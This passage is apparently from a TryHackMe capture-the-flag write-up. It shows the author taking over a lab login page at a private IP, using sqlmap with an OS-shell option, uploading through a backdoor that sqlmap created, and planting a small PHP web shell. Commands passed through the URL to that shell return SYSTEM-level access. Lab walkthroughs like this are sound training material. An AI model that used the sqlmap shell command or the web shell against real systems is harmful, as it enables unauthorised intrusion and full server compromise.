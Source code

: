 Got the intercepted URL, ``http://10.10.127.78/ai/includes/user_login.php?email=test%40chatai.com&password=123

Used the **sqlmap** command, `sqlmap -u "http://10.10.127.78/ai/includes/user_login.php?email=test%40chatai.com&password=123" -p email --os-shell` 

![](/img/user/TryHackMe/THM_Images/1c1c144b573fa89cb8b50f9e9262ddf5.png)

![](/img/user/TryHackMe/THM_Images/Screenshot 2025-03-11 001345.png)

Once done running, sqlmap creates a OS shell that we can use to navigate through the target machine.

![](/img/user/TryHackMe/THM_Images/ab4c165eb3a2cda01ee48ab19c48f2a1.png)

![](/img/user/TryHackMe/THM_Images/Screenshot 2025-03-11 001443.png)

Sqlmap also creates a backdoor located on `http://10.10.127.78:80/tmpubngv.php` that we can use to upload any files we want.

We can first create a exploit file called `hack.php`

```
<?php
if(isset($_REQUEST['cmd']))
{
	echo "<pre>"; $cmd = ($_REQUEST['cmd']);
	system ($cmd);
	echo "</pre>";
	die;
}
?>
```

![](/img/user/TryHackMe/THM_Images/453868b6cdea49063cf0cbc658f66bc2.png)

![](/img/user/TryHackMe/THM_Images/Screenshot 2025-03-11 002131.png)

Navigate to the website `http://10.10.127.78:80/tmpubngv.php` and upload the `hack.php` file

![](/img/user/TryHackMe/THM_Images/6b722c41ae655753d0529d7f115c1d0c.png)

![](/img/user/TryHackMe/THM_Images/Screenshot 2025-03-11 002222.png)

Allows us to put in commands in the URL to access the backdoor like http://10.10.127.78:80/hack.php?cmd=dir

> [!Success] Answer
> nt authority\system

> [!Question]
>  **Have you noticed the file flag.txt in the web root directory? What is the flag value?**

![](/img/user/TryHackMe/THM_Images/a55162788292d089e032b79da7cae161.png)
![](/img/user/TryHackMe/THM_Images/Screenshot 2025-03-11 002710.png)
